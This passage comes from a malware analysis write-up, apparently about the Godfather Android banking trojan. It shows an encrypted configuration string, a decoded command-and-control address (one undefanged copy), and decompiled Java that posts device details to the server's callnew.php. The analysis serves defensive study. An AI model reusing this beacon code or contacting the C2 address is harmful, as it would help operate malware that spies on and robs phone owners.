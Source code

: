 ```java

<string name="min">zH7cPW3ZEHjVTG9k7cxAEFPMXyfMjJ9RsvkyHSqCvNV5HAZ/FWvMgQ==</string>
```
Deciphered with Uriiah function give us:
https://yukoramparata.top/zamra/aaa/ , adding the string “callnew.php”: 
https://yukoramparata[.]top/zamra/aaa/callnew[.]php


The rarefeatured function appears to prepare and send an HTTP POST request including a set of data retrieved from the SharedPreference

```java

    public static void rarefeatured(Context context, String e) {
    public static void rarefeatured(Context context, String e) {
        String effluvias = ("alt");
        String effluvias2 = ("ky");
        try {
            HashMap<String, String> p = new HashMap<>();
            p.put(effluvias2, bedamned(context, effluvias2));
            p.put(("tg"), hagiography(bedamned(context, ("tag"))));
            p.put(("cy"), bedamned(context, ("locale")));
            p.put(("model"), bedamned(context, ("smm")));
            p.put(("nw"), ("true"));
            p.put(effluvias, bedamned(context, effluvias));
            p.put(("eys"), e);
            p.put(("rpn"), bedamned(context, ("psv")));
            veepees.undissuadably(context, Uriiah(bedamned(context, ("min"))) + ("callnew.php"), p);
        } catch (Exception e2) {
        }
    }
```


|alt    | com.melting.mantaught |
|tg     | 0401EN                |
|cy     | en                    |
|model  | 13 A50                |
|nw     | true                  |
|ky     | 0hh2fpkr5zt72         |


Checking the requests from our device proxy:


![Figure 19 - Http Request Example]({{ '/assets//images/2024-12-09-godfather-android-analysis/img19.png' | relative_url }}))


### Step4 : Retrieve Shared Preference and Talking with C2
